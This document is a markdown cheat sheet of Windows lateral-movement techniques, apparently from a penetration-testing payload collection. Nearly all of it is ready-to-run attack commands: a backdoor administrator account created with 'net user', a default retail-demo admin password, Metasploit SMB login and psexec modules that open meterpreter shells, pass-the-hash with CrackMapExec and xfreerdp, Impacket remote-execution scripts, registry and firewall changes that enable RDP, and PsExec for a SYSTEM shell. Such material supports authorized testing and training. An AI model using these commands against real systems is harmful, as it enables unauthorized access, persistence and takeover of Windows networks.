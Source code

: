 # Windows - Using credentials

## TIP 1 - Create your credential :D
```powershell
net user hacker hacker /add
net localgroup administrators hacker /add
```
Some info about your user
```powershell
net user /dom
net user /domain
```

## TIP 2 - Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)
when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin
```powershell
Username: RetailAdmin
Password: trs10
```


## Metasploit - SMB
```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain CSCOU  
set SMBUser jarrieta
set SMBPass nastyCutt3r
services -p 445 -R  
run
creds
```

## Metasploit - Psexec
Note: the password can be replaced by a hash to execute a `pass the hash` attack.
```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser jarrieta
set SMBPass nastyCutt3r
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)
```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d CSCOU -u jarrieta -p nastyCutt3r
python crackmapexec.py 10.9.122.5 -d CSCOU -u jarrieta -p nastyCutt3r -x whoami
```

## Crackmapexec (Pass The Hash)
```
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)
```python
winexe -U CSCOU/jarrieta%nastyCutt3r //10.9.122.5 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)
```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python smbexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python wmiexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
```

## RDP Remote Desktop Protocol (Impacket)
```powershell
python rdpcheck.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
rdesktop -d CSCOU -u jarrieta -p nastyCutt3r 10.9.122.5
```

Note: you may need to enable it with the following command
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)
```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

For Server 2012 R2, Win8.1+
```
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:192.168.1.12
```

with Metasploit
```powershell
run getgui -u admin -p 1234
```


## Netuse (Windows)
```
net use \\ordws01.cscou.lab /user:CSCOU\jarrieta nastyCutt3r
C$
```

## Runas (Windows - Kerberos auth)
```
runas /netonly /user:CSCOU\jarrieta "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )
```
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe -s  # get System shell
```


## Thanks
 - [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
 - [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
 - [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
